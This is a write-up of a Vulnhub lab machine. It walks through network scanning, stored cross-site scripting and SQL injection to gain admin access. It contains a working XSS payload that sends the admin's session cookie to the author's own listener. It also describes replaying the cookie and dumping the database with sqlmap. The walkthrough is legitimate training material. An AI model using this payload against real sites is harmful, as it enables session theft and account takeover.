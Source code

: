 * * *
### Vulnhub:Xss_to_Sql
* * *
### Challenge description:

![2023-12-07_18-24](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/261fbeb3-3a6c-4488-ba5f-9dcfda0de8dd)

- Find the vm's ip address with netdiscover

       sudo netdiscover -r <ip>
 ![2023-12-14_18-07](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f48777b6-2b77-4408-bb60-13acfa10ea9f)
 
- Scan ip with nmap
   
      nmap -sV -p1-100 192.168.184.130
      Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-14 18:08 EST
      Nmap scan report for 192.168.184.130
      Host is up (0.0013s latency).
      Not shown: 98 closed tcp ports (conn-refused)
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze4 (protocol 2.0)
      80/tcp open  http    Apache httpd 2.2.16 ((Debian))
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
- The server is hosting a webpage and it has a comment section

  ![2023-12-14_18-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fa501b37-d711-4722-83cc-be50eb18709d)

- The comment section is vulnerable to stored cross-site scripting, we can use it to escalate privileges by stealing the admin's cookie

   ![2023-12-14_18-15](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9ea6f03c-5e6e-4ca9-9d29-a6081f02b610)

- Start a server with php

      php -S <ip:port>
- Use this payload

      <script>window.location="http://192.168.184.128:9000"+"?cookie="+document.cookie</script>

- Admin's cookie received

  ![2023-12-14_18-24](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a6688bd-0f40-4411-8734-521ad3452844)

- Edit the cookie with firefox cookie editor

   ![2023-12-14_18-23](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9612c9e3-c9d8-4108-a7e4-e93e3da35875)

- Admin panel accessed

    ![2023-12-14_18-26](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/78624310-3dde-4d6b-9386-bbf972262ea1)

- After testing every parameter,I noticed that "/admin/edit.php?id=2" is vulnerable to sql injection.I inserted a single colon after id=2.It displayed this error.

    ![2023-12-17_00-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/02369116-bb11-43b4-a366-5304b3da161a)
- I dumped the db and cracked the admin's hash with sqlmap

   ![2023-12-17_00-20](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6142908d-f8f9-422f-aa4a-3d7f93ea3e15)

- Challenge solved

  ![2023-12-17_00-21](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/7ef4ff46-af6e-4e10-be06-03579ed6bd43)

  


    
  
